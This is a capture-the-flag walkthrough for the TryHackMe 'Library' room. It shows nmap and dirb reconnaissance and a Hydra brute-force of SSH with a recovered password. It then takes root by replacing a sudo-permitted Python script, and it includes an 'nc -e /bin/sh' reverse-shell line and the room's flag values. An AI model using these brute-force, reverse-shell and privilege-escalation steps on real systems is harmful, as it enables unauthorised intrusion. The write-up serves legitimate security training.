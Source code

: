 ```yaml
---
title: "Library CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-11
hero: ./images/hero.jpeg
excerpt: "Writeup for the Library CTF room on TryHackMe"
---
```


[TryHackMe | Library CTF](https://tryhackme.com/room/bsidesgtlibrary)

Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.98.89
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
|   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/NWlX0nd.png" alt="blog_image" />
</div>

Let's see if there is some hidden directory 😔

```bash
➜  ~ dirb http://10.10.98.89/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Jun  9 16:57:31 2020
URL_BASE: http://10.10.98.89/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.98.89/ ----
==> DIRECTORY: http://10.10.98.89/images/
+ http://10.10.98.89/index.html (CODE:200|SIZE:5439)
+ http://10.10.98.89/robots.txt (CODE:200|SIZE:33)
+ http://10.10.98.89/server-status (CODE:403|SIZE:299)
```

<div className="Image__Medium">
  <img src="https://imgur.com/R4JWXDR.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/oY8Ps8x.png" alt="blog_image" />
</div>

"Posted by meliodas" maybe a username ? let's keep it..

There is nothing on the website, this is a simple landing page with HTML nothing to attack there, but there is something interresting on the "robots.txt" the "User-agent: Rockyou".

Let's try to crack the ssh password with Hydra 🥰

```bash
# Meliodas was the name that we found on the index.html and rockyou is a list of common password
➜  TryHackMe hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.98.89
```

<div className="Image__Medium">
  <img src="https://imgur.com/ZMBdybW.png" alt="blog_image" />
</div>

```bash
[22][ssh] host: 10.10.98.89   login: meliodas   password: iloveyou1
```

### #1 user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/i4x8ElV.png" alt="blog_image" />
</div>

```bash
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

### #2 root.txt

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Ok now, we know that we can execute a python script with the root privileges let's try to have a root shell and run it with sudo 🤓

```bash
meliodas@ubuntu:~$ echo 'nc -e /bin/sh 10.9.2.228 4444' > bak.py
-bash: bak.py: Permission denied
```

Well.. That doesn't work let's try something else..

On the sudo -l command we can see the path of the file "/home/meliodas/bak.py"

Let's delete it and recreate our own one 🤑

```bash
meliodas@ubuntu:~$ rm -rf /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt
$ cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
